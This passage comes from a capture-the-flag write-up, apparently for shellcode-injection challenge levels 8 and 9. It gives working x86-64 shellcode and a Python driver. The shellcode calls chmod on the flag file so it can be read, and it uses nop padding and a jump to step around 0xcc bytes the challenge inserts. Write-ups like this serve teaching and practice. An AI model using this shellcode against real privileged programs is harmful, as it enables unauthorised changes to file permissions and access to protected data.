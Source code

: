 ```python
    push 90
    pop rax
    syscall
'''
shellcode = asm(shellcode)

process = subprocess.Popen([file], stdin=subprocess.PIPE, cwd="/") # we added cwd="/" here
process.communicate(shellcode)
```

Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> In this challenge we can write up to 0x12 = 18 bytes of shellcode. I decided to use push instructions instead of mov ones because it saves space by avoiding specifying both source and destination registers, crucial for the 18-byte limit. It also aligns values efficiently for immediate use with pop into the required registers, minimizing instruction overhead. The upper script is exactly 18 bytes long.
>
> **Explanation of the alternative script of level4 too:**
> Here, like in the alternative script provided in **level4**, we’re saving "flag" into the stack instead of "/flag". This still works because, in the subprocess instance, we set `cwd="/"`, making the root directory the current working directory of our process. As a result, it correctly locates the flag file from "**/**". Without `cwd="/"` the script would fail, as it would search for the flag file relative to the directory from which the shellcode is executed, that is `/challenge`

<div alt="page-break" class="page-break"></div>

## Level9

> **From the challenge description**:
> This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your shellcode.

Replace the shellcode variable in the script of **level8** with the code below:

```python
shellcode = '''
    push 0x67616c66	/* those first 4 instructions are 9 bytes long */
    push rsp
    pop rdi
    jmp part2

    .rept 11	/* we put now 11 nops, and the last 10 will be converted into 0xCC */
        nop		/* remember that every nop is 1 byte long */
    .endr

part2:			/* those next 5 instructions are too 9 bytes long */
    push 7		/* 7 = 0007 that gives full permissions for everyone else */
    pop rsi

    push 90
    pop rax
    syscall
'''
```
